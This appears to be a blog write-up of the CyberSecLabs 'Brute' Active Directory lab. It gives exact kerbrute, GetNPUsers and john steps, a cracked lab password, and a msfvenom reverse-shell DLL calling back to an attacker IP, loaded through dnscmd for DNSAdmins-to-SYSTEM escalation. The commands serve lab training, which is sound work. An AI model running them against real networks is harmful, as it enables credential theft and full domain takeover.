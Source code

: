 ```yaml
---
title: "CyberSecLabs - Brute"
tags: [windows,medium]
categories: CyberSecLabs-Active-Directory
---
```


⇒ Brute was an medium active directory machine created by "**wtfitsaduck**" that taught us : 

- How to enumerate AD users by kerbruting with a wordlist to identify valid users
- Checking if DONT_REQ_PREAUTH set for the users then kerberoasting.
- Privilege Escalation from DNS Admins Group to Domain Admin.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled.png)

### *NMAP*

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%201.png)

---

## Enumerating and Kerberoasting

⇒ So we enumerated smb and performed ldapqueries but came up empty handed. So next we decided to run kerbrute with username wordlist (from seclists ) to identify valid users which could have DONT_REQ_PREAUTH set which will allow us to perform kerberoasting using GetNPUsers ( impacket tool )

- Running kerbrute with the following wordlist : [https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt)

**./kerbrute_linux_amd64 userenum -d brute.csl --dc 172.31.3.3 names.txt**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%202.png)

- Next we will kerberoast accounts that have DONT_REQ_PREAUTH set using impacket tool GetNPUsers and retrieve ASREP which we will crack using john.

**python3 [GetNPUsers.py](http://getnpusers.py/) -dc-ip 172.31.3.3 brute.csl/ -usersfile users.txt -format hashcat -outputfile test11.txt**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%203.png)

- Cracking it using john

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%204.png)

**tess : Unique1**

⇒ So now we have credentials for user tess. We can connect to the machine as user **tess** using **evil-winrm** 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%205.png)

---

## Privilege Escalation to Root [ Exploiting DNSAdmins Group ]

⇒ We discover that the user tess is a part of DNSAdmins group. We can leverage this to escalate our privileges to the domain admin. This is an fantastic blog on how to exploit it : [https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%206.png)

- First we'll generate the dll payload using msfvenom

**msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.80 LPORT=7777 --platform=windows -f dll > enox.dll**
- Next we will be importing the plugin to the server 

**dnscmd.exe /config /serverlevelplugindll C:\Users\Tess\Documents\enox.dll**
- Now we just have to restart the dns service

    `sc.exe stop dns `

    `sc.exe start dns`

⇒ Then we get an reverse shell as system after the service is restarted and our plugin is executed :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Brute%20Machine%20f3603f7c60b94b5ca13fa3131ba6052f/Untitled%207.png)
